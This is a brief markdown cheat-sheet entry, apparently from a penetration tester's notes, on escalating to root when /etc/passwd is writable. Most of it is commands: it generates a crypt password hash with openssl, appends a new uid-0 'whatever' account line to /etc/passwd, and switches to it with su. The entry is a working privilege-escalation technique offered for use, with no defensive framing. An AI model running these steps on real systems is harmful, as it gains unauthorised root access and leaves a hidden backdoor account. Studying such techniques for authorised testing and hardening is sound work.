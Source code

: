 ```yaml
---
title: insecure passwd file permissions
date: M02-03-2023
author: i4
---
```

- Check permissions on `/etc/passwd` if it's writable it's possible to use it for privesc.
- Generating a usable hash for `/etc/passwd`
- `/etc/passwd` takes priority in some distributions
- Uses the [Crypt](https://en.wikipedia.org/wiki/Crypt_(C)) algorithm
```bash
$ openssl passwd hunter2
lTJS0EnBV9DG.
$ echo "whatever:lTJS0EnBV9DG.:0:0:root:/root:/bin/bash" >> /etc/passwd
$ su whatever
```
